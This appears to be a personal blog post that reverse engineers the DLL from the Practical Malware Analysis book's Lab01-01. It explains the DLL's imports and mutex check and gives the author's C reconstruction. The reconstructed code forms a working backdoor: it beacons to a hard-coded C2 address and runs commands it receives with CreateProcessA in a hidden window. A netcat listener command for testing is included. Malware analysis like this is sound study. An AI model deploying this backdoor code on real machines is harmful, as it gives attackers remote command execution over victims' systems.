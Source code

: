 ```yaml
---
title:  "PMA - Going even further: Lab01 part 1"
date:   2023-11-20 12:00:00 +0300
classes: wide
header:
  teaser: "/assets/images/PMA/lab01-part-1/lab01dll-checking-mutex.png"
ribbon: red
categories: 
  - PMA
tags:
  - malware
  - reverse-engineering
toc: true
---
```


# Introduction
This first lab will be broken in two parts. This post we'll reverse enginnering the `.dll` from the *Lab01-01*. In the next part will do the same with the `.exe`. So, without further ado, let's go.

# Capabilities
Just by looking at the imports used by this binary, we can make an educated guess about what this may be. This binary make the usage of the following fuctions:

- WSAStartup
- socket
- inet_addr
- htons
- connect
- send
- shutdown
- recv
- closesocket
- WSACleanup

Those APIs are from the `WS2_32.dll`, this library contain functions to performs network interactions. Other APIs used by this DLL are from the `Kernel32.dll`:

- CreateMutexA
- OpenMutexA
- CreateProcessA
- CloseHandle

We can see that this binary uses some functions related to mutex access and creation. In the context of Windows OS, a mutex (short for mutual exclusion) is a synchronization primitive used to control access to a shared resource, such as a file or a section of memory, in a multi-process or multi-threaded environment. Some malwares can use these functionalities to ensure that only one instance of the malware is running on a system at a time. And it may create some new processes on the target system.

By doing a quick search on the strings present on this binary, it's clear that it isn't using any packer or obfuscation techniques. Some of those string catch my attention.

```text
127.26.152.13
sleep
hello
exec
```

Nice, now let's drop this binary on Ghidra and see if our hypothesis was correct.

# Looking at the assemby `:)`

As this is a DLL file, we can see that the whole binary functionality happens in the DllMain at the DLL_PROCESS_ATTACH.

![Checking mutex](/assets/images/PMA/lab01-part-1/lab01dll-checking-mutex.png){:class="img-responsive"}

We can replicate this behavior like the snippet of C/C++ code below.

```c
  // Check if the process is alredy running, else create mutex
  hMutex = OpenMutexW(MUTEX_ALL_ACCESS, TRUE, MW_MUTEX);
  if (hMutex != NULL)
      return TRUE;

  hMutex = CreateMutexW(NULL, TRUE, MW_MUTEX);
```

The `MW_MUTEX` is just a macro that I create at the beginning of the code with the same value used in the lab: `L"SADFHUHF"`. There is another option that we can perform the same tasks without the `OpenMutexW` function. We could use just the `CreateMutextW`. The code would look like:

```c
  hMutex = CreateMutexW(NULL, TRUE, L"malware");
  if (GetLastError() == 0xB7) { // ERROR_ALREADY_EXISTS 
    return TRUE;
  }
```

This format is less verbose, but I think it is more elegant. Thanks for the hands up [Moval0x1](https://moval0x1.github.io/) <3.

After checking if the process was already running on the target system, the malware started to set up the socket configuration to communicate with its C2.

![Seting up the socket communication](/assets/images/PMA/lab01-part-1/lab01dll-set-up-socket.png){:class="img-responsive"}

Below is my reinterpretation of the code. I believe the original source code may differ from that, but for now, it's okay.

```c
  // Start the Win Socket
  if (WSAStartup(WINSOCK_VERSION, &wsaData) != 0) 
      goto _CleanUp;

  // Create a socket
  sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
  if (sock == INVALID_SOCKET)
      goto _CleanUp;

  // Set up remote address information and connect to it
  sockAddr.sin_family = AF_INET;
  sockAddr.sin_port = htons(80);
  sockAddr.sin_addr.s_addr = inet_addr(IP_ADDR);

  if (connect(sock, (sockaddr*)(&sockAddr), sizeof(sockAddr)) == SOCKET_ERROR)
      goto _CleanUp;
```

The `_CleanUp` label just contains the `closesocket`, `WSACleanUp` functions.

```c
  _CleanUp:
      CloseHandle(pi.hProcess);
      CloseHandle(pi.hThread);
      closesocket(sock);
      WSACleanup();
      break;
```

After that socket setup part, this binary gets into a _while loop_ and sends a beacon with the message "hello" to its C2 to say that it's alive.

![Send and recv data](/assets/images/PMA/lab01-part-1/lab01dll-send-and-recv-data.png){:class="img-responsive"}

As we can see in the code below, I try to replicate this behavior. I used the following command on a REMnux box to test:

```bash
echo -n "<sleep|exec|q>" | sudo nc -lvnk4 80
```

```c
  while (true)
  {
      // Send beaconing "hello" and shutdown send
      if (send(sock, MSG_HELLO, sizeof(MSG_HELLO) - 1, 0) == SOCKET_ERROR)
          goto _CleanUp;

      if (shutdown(sock, SD_SEND) == SOCKET_ERROR) 
          goto _CleanUp;

      // Receive command back
      bytesRead = recv(sock, buffer, sizeof(buffer), 0);
      if (bytesRead <= 0)
          break;
      
      if (strncmp("sleep", buffer, 5) == 0)
      {
          Sleep(0x60000);
      }
      else if (strncmp("exec", buffer, 4) == 0)
      {
          // Execute process
          CreateProcessA(NULL, (buffer+5), NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
      }
      else if (buffer[0] != 'q')
      {
          Sleep(0x60000);
      }
      else
      {
          goto _CleanUp;
      }
  }
```

The final part of this malware is where it checks for the command received by its C2.

![Checking the recv data](/assets/images/PMA/lab01-part-1/lab01dll-check-recv-data.png){:class="img-responsive"}

# Conclusion

Well, that's my interpretation of the first lab from the PMA book. I aimed to recreate the source code based on my reverse engineering skills. Thanks for reading <3.

The full source code can be found on my github [here](https://github.com/P4nD3m1CB0Y0xD/PMA-Book-Code/blob/main/Lab01-01/Lab01-dll/dllmain.cpp).
